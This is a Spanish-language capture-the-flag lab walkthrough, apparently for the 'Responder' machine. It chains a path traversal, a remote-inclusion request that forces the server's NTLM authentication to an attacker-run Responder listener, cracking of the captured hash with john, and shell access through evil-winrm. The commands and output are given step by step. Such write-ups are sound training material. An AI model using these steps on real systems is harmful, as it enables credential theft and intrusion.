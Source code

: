 # Responder

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.22.57

PING 10.129.22.57 (10.129.22.57) 56(84) bytes of data.
64 bytes from 10.129.22.57: icmp_seq=1 ttl=127 time=165 ms

--- 10.129.22.57 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 165.094/165.094/165.094/0.000 ms
```

> Sistema operativo:  **Windows**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.22.57 -oG openPorts

PORT     STATE SERVICE   REASON
80/tcp   open  http      syn-ack ttl 127
7680/tcp open  pando-pub syn-ack ttl 127
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 80,7680 -sCV 10.129.22.57 -oN targeted

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
7680/tcp open  pando-pub?
```

| Puerto | Servicio  | Versión                                                 |
| ------ | --------- | ------------------------------------------------------- |
| 80     | http      | Apache httpd 2.4.52 ((Win64)) OpenSSL/1.1.1m PHP/8.1.1) |
| 7680   | pando-pub | ?                                                       |

🗹 Cambiar el idioma de la web y comprobar que el servidor es vulnerable a un **path traversal** comprobando si podemos leer, por ejemplo, el archivo `C:\Windows\System32\drivers\etc\hosts` agregando al parámetro `page` el path  `../../windows/system32/drivers/etc/hosts`, quedando la solicitud`http://unika.htb/index.php?page=../../windows/system32/drivers/etc/hosts`.

<p>
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft TCP/IP for Windows. # # This file contains the mappings of IP addresses to host names. Each # entry should be kept on an individual line. The IP address should # be placed in the first column followed by the corresponding host name. # The IP address and the host name should be separated by at least one # space. # # Additionally, comments (such as these) may be inserted on individual # lines or following the machine name denoted by a '#' symbol. # # For example: # # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host # localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost
</p>

> [!NOTE]
> Cuando un cliente Windows no puede resolver un nombre de un host utilizando el servicio DNS, este utilizará el protocolo de resolución de nombres de multidifusión o mejor llamado **LLMNR** (Link-Local Multicast Name Resolution) para pedir a los equipos en la red local resolver las direcciones IPv4 e inclusive bajo IPv6.  
> Si la solicitud usando **LLMNR** falla, se utilizará el protocolo **NETBIOS** (Network Basic Input/Output System) o **NBT-NS** el cual cumple el mismo objetivo que el anterior.  
> Entonces, cuando un host utiliza **LLMNR** o **NBT-NS** para resolver una solicitud de un recurso de red, es posible que cualquier host de la red que conozca la dirección IP del host al que se le pregunte puede responder. Incluso si un host responde a una de estas solicitudes con información incorrecta, todavía se considerará como legítimo.

> [!NOTE]
> NTLM es una colección de protocolos de autenticación creada por Microsoft. NT LAN Manager permite a varias computadores y servidores llevar a cabo autenticación. La mayoría de las redes intentan denegar el acceso a usuarios no autorizados, el que requiere la implementación de un proceso de autenticación.  
> El protocolo requiere a un cliente autenticarse proveyendo un nombre usuario y su correspondiente contraseña. Esto permite Esto permite establecer un intercambio entre el dispositivo del usuario y un servidor. Después de que las credenciales hayan sido reconocidas, el servidor puede chequear los permisos de acceso y permite la entrada al usuario.  
How does NTLM authentication work?
> NTLM usa un protocolo **challenge-response** para chequear la autenticidad de un usuario en la red. Para hacer eso, el cliente y el host realizan los siguientes pasos:  
> 1. El cliente envía un nombre de usuario al host.
> 1. El host responde con un número aleatorio (el **challenge**).
> 2. El cliente entonces genera un valor de contraseña hasheado a partir del número y la contraseña del usuario, y entonces lo envía de vuelta como **response**.
> 3. El hosy conoce la contraseña del usuario y genera una valor de contraseña hasheado el que compara al **response** del cliente.
>4. Si ambos valores coinciden, al autenticación del cliente se confirma, y se garantiza el acceso a la red. Si no hay coincidencia entre los valores, se le niega el acceso al cliente.

🗹 Utilizar la herramienta `responder` para capturar credenciales:

```shell
sudo responder -I tun0

                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.193]
    Responder IPv6             [dead:beef:2::10bf]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-KGSB0MULYU2]
    Responder Domain Name      [LMVG.LOCAL]
    Responder DCE-RPC Port     [47631]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.77.76
[SMB] NTLMv2-SSP Username : RESPONDER\<username>
[SMB] NTLMv2-SSP Hash     : <hash>
```

🗹 Enviar la solicitud  a la web desde el parámetro `page`, `http://unika.htb/index.php?page=//10.10.14.193/pwned`.

🗹 Guardar el hash obtenido con `responder`:

```shell
echo '<hash>' >> hash.txt
```

🗹 Crackear el hash con `john`:

```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<password>        (Administrator)     
1g 0:00:00:00 DONE (2024-03-08 23:11) 50.00g/s 204800p/s 204800c/s 204800C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

🗹 Acceder al servidor mediante la herramienta `evil-winrm` proporcionando el usuario y contraseña obtenidos:

```shell
evil-winrm -i 10.129.152.190 -u <user> -p <password>

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
## Flag

La flag se encuentra en el directorio `C:\Users\mike\Desktop\flag.txt`.
